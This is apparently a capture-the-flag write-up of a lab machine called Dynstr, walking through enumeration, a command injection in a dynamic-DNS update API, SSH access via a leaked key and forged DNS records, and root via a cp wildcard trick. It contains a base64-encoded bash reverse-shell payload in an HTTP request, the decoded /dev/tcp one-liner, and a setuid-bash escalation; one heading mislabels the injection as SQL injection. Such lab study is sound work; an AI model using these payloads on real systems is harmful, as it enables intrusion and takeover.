 ```yaml
---
permalink: /dyster
layout: post
author: jkr
title: Writeup
date: 2021-10-17
publish: True
description: "Dynstr is a medium difficulty Linux machine featuring a blog providing Dynamic DNS services. The application API is vulnerable to command injection using which a foothold can be gained. Enumerating one of the users folders leaks SSH private key. Updating DNS zone records allows SSH access which helps in lateral movement. By exploiting a wildcard injection in a bash script root access can be obtained.
"

---
```

# Enumeration
## Nmap

```bash
sudo nmap -sC -sV -oA nmap/dynstr 10.10.10.244

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS


```

Three ports 
- 22
- 53
- 80

![](/Writeups/Dyster/Pasted image 20211017070917.png)

Ubuntu 20

# FootPath
### Port 80

![](/Writeups/Dyster/Pasted image 20211017070142.png)

![](/Writeups/Dyster/Pasted image 20211017070217.png)

Creds

|Username|Password|
|---|---|
|dynadns| sndanyd|

We are providing dynamic DNS for anyone with the same API as no-ip.com has. Maintaining API conformance helps make clients work properly.


Dynamic DNS for a number of domains:

-   dnsalias.htb
-   dynamicdns.htb
-   no-ip.htb

no-ip API

```
http://username:password@dynupdate.no-ip.com/nic/update?hostname=mytest.example.com&myip=192.0.2.25

```

Port 53

```bash

dig axfr @10.10.10.244 dynstr.htb


; <<>> DiG 9.16.12-Debian <<>> axfr @10.10.10.244 dynstr.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.


```

Checking for zones It didn't work.

Sql Injection in API


```bash
GET /nic/update?hostname=t`echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC40OC85MDAxIDA%2bJjEK|+base64+-d+|+bash`est.no-ip.htb&myip=10.10.14.48 HTTP/1.1
Host: 10.10.10.244
Authorization: Basic ZHluYWRuczpzbmRhbnlk
User-Agent: curl/7.74.0
Accept: */*
Connection: close

```

![](/Writeups/Dyster/Pasted image 20211017073334.png)

```bash

## first command Replace ip and port

echo 'bash -i >& /dev/tcp/10.10.14.48/9001 0>&1' | base64 

## second command

echo -ne YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC85MDAxIDA+JjEK| base64 -d | bash

```

![](/Writeups/Dyster/Pasted image 20211017073652.png)

TTY shell

```bash
python3 -c 'import pty; pty.spawn("bin/bash")'
ctrl+z 
stty -raw echo;fg 
return 
export TERM=xterm

```


# User

private_key for bindmgr found at `/home/bindmgr/support-case-C62796521`

![](/Writeups/Dyster/Pasted image 20211017074518.png)

copy to your machine use vim editor to replace new line

```vim

:s/\\n/\r/g

```

sshing using private key is not working.

![](/Writeups/Dyster/Pasted image 20211017075036.png)

Entry is only allowed from a patricular domain `.infra.dyna.htb`

looking at update file at /var/www/html/nic we can our ip to that domain using nsupdate to create new DNS record

```php
www-data@dynstr:/var/www/html/nic$ cat update 
<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }

  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
    }
  } else {
    echo "nochg $myip\n";
  }
?>
```


```bash
www-data@dynstr:/var/www/html/nic$ nsupdate -t 1 -k /etc/bind/infra.key 
> ADD aju.infra.dyna.htb 30 IN A 10.10.14.91
> send
> ADD 91.14.10.10.in-addr.arpa 30 IN PTR aju.infra.dyna.htb
> send
```

![](/Writeups/Dyster/Pasted image 20211017084635.png)

# Root

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
	
	```bash
	cp .version * /etc/bind/named.bindmgr/
	```
	
We can exploit cp to get root

Do following

```bash

echo 1 >.version
cp /bin/bash . 
chmod u+s bash 
touch -- '--preserve=mode'

```
	
![](/Writeups/Dyster/Pasted image 20211017085933.png)


[back](/writup)
